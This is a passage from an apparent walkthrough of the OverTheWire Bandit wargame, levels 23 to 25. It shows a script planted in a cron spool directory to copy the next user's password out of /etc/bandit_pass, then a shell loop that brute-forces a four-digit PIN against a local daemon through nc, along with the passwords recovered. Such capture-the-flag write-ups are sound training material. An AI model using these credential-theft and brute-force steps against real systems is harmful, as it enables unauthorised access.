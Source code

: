 ```sh=
    fi
done
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ mkdir ss
bandit23@bandit:/tmp$ cd ss
bandit23@bandit:/tmp/ss$ vim
bandit23@bandit:/tmp/ss$ ls
gogo.sh
bandit23@bandit:/tmp/ss$ chmod 777 gogo.sh
bandit23@bandit:/tmp/ss$ chmod 777 /tmp/ss
bandit23@bandit:/tmp/ss$ strings gogo.sh
#!/bin/bash
strings /etc/bandit_pass/bandit24 > /tmp/ss/b24.txt
bandit23@bandit:/tmp/ss$ cp gogo.sh /var/spool/bandit24/
```
Wait few seconds.
```
bandit23@bandit:/tmp/ss$ ls
b24.txt  gogo.sh
bandit23@bandit:/tmp/ss$ strings b24.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
#### Password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

### level 24 → level 25
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

#### Solution
  
```sh=
bandit22@bandit:~$ cd /tmp
bandit22@bandit:~$ mkdir ss
bandit22@bandit:~$ cd ss
bandit22@bandit:~$ vim gogo.sh
bandit24@bandit:/tmp/ss$ strings gogo.sh
#!/bin/bash
for i in $(seq 0 9999); do
    if [ "${#i}" = "1" ]; then
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 000$i
    elif [ "${#i}" = "2" ]; then
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 00$i
    elif [ "${#i}" = "3" ]; then
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0$i
    elif [ "${#i}" = "4" ]; then
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
    fi
done
bandit24@bandit:/tmp/ss$ sh gogo.sh > tt.txt
bandit24@bandit:/tmp/ss$ strings tt.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
#### Password
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
